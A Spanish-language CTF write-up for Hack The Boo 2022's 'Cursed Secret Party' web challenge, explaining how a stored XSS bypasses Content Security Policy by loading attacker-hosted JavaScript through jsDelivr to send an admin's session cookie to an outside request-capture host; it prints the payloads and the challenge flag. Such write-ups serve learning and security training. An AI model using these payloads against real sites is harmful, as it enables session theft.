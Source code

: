 ```yaml
---
title: Hack The Boo 2022 - Cursed Secret Party
layout: post
description: La resolución del reto "Cursed Secret Party" del CTF "Hack The Boo 2022" organizado por Hack The Box.
tags:
- HackTheBox
- CursedSecretParty
- ctf
- post
- writeups
---
```

# Descripción
---

You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?

# Solución
---

El quinto y último reto web del CTF nos presenta con un formulario muy bonito.

![](/images/images-hacktheboo2022/csp-1.png)

Al rellenar el cuestionario y enviarlo vemos un mensaje que nos habla sobre un equipo que revisará nuestra petición, esto me hace pensar inmediatamente en un XSS. Ingresamos datos a través de un formulario y una persona ve ese formulario, si logramos inyectar javascript malicioso en un formulario la persona que lea ese formulario quedará infectada y así podremos obtener la flag.

![](/images/images-hacktheboo2022/csp-2.png)

Voy a usar [RequestBin](https://requestbin.com/) para recibir las peticiones que provocaremos con el XSS, obtenemos la url para crear nuestro payload.


![](/images/images-hacktheboo2022/csp-3.png)

Copiamos y pegamos nuestro payload con el fin de ver una petición en nuestro servidor de RequestBin.

```javascript
<script>document.location="https://eo3emfo3s2pmmn3.m.pipedream.net"</script>
```

![](/images/images-hacktheboo2022/csp-5.png)

Pero no llega nada.

![](/images/images-hacktheboo2022/csp-6.png)

Revisando el código fuente vemos que se está usando el CSP, el Content Security Policy sirve para agregar seguridad extra a una aplicación y evitar los XSS.

![](/images/images-hacktheboo2022/csp-7.png)

Googleando por un rato nos encontramos con esta página de github donde nos enseñan formas de bypassear el CSP [Link](https://github.com/qazbnm456/awesome-security-trivia/blob/master/Ways-to-bypass-CSP.md). Nos habla sobre el uso inseguro de CDNs, en una de esas CDNs inseguras está jsDelivr, y anteriormente vimos que se está usando jsDelivr.

![](/images/images-hacktheboo2022/csp-4.png)

Según la página nosotros podemos ejecutar cualquier archivo javascript a través de la CDN y en esta CDN existe la opción de cargar archivos desde github, así que nuestro objetivo será cargar un archivo javascript malicioso alojado en github y desde ahí realizar una petición al exterior.

![](/images/images-hacktheboo2022/csp-8.png)

Analizando el código fuente vemos que el usuario al que atacaremos será el admin y en su cookie estará la flag, este es nuestro objetivo final, la cookie del usuario admin.

![](/images/images-hacktheboo2022/csp-9.png)

Como primer paso creamos un repositorio de github.

![](/images/images-hacktheboo2022/csp-10.png)

Como segundo paso creamos nuestro exploit, hacemos click en el botón `creating a new file` para hacerlo más rápido.

![](/images/images-hacktheboo2022/csp-13.png)

Le ponemos nombre con la extensión `.js` y escribimos nuestro payload.

![](/images/images-hacktheboo2022/csp-14.png)

Guardamos nuestro archivo.

![](/images/images-hacktheboo2022/csp-15.png)

Según jsdelivr nuestro link debe verse así:

```javascript
https://cdn.jsdelivr.net/gh/user/repo@version/file
```

Después de rellenar los datos se ve así:

```javascript
https://cdn.jsdelivr.net/gh/kaniehuest/exploit/xss.js
```

Construimos nuestor exploit y queda así:

```javascript
<script src="https://cdn.jsdelivr.net/gh/kaniehuest/exploit/xss.js"></script>
```

![](/images/images-hacktheboo2022/csp-16.png)

Vamos a nuestra página de RequestBin y observamos una petición por el método POST.

![](/images/images-hacktheboo2022/csp-17.png)

En el body podemos ver una cookie de sesión JWT.

![](/images/images-hacktheboo2022/csp-18.png)

Si copiamos el valor de la cookie y la pegamos en [jwt.io](https://jwt.io/) obtenemos la flag en la pestaña de payload. Un último hint del reto son las inicales de cada palabra Cursed Secret Party forman **CSP** Content Security Policy.

![](/images/images-hacktheboo2022/csp-19.png)

# Flag
---

`HTB{cdn_c4n_byp4ss_c5p!!}`
